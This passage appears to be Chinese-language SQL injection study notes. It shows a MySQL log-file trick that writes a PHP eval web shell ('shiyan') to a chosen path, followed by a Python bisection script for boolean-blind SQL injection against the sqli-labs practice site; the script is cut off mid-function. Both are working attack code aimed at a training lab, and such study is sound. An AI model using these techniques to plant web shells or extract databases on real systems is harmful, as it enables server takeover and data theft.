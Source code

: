 ```sql
show variables like ‘%general%’;
查询当前mysql下log日志的默认地址，同时也看下log日志是否为开启状态，并且记录下原地址，方便后面恢复。

set global general_log = on;
开启日志监测，一般是关闭的，如果一直开，文件会很大的。

set global general_log_file = ‘新路径’;
这里设置我们需要写入的路径就可以了。

select ‘<?php eval($_POST[‘shiyan’]);?>’;
查询一个一句话，这个时候log日志里就会记录这个。

set global general_log_file = ‘原路径’;
结束后，再修改为原来的路径。

set global general_log = off;
关闭下日志记录。
```





2. 

# 9. 板子



二分法板子：

```python
#!/usr/bin/python3
#coding:utf-8
import requests
import re, string

# payloadTmpl = "(slect if(substr(version(),{},1)>{},exp(72),exp(800)));%23"
# proxy = {"http":"http://127.0.0.1:8080"}
url = "http://localhost/sqli-labs-php7/Less-5/?id=1%27 and ascii(substr((select database()),{},1))>{} %23"
SuccessFlag = "You are in..."

def sendReq(payload):
    res = requests.get(payload)
    return res

def verify(payload):
    r = sendReq(payload)
    if re.findall(SuccessFlag, r.text) != []:
        return True
    return False

def half_interval():
    result = ""
    for i in range(1,9):
        min = 32
        max = 127
        while abs(max-min) > 1:
            mid = (min + max)//2
            # payload = payloadTmpl.format(i,mid)
            payload = url.format(i,mid)
            print(payload)
            if verify(payload):
                min = mid
            else:
```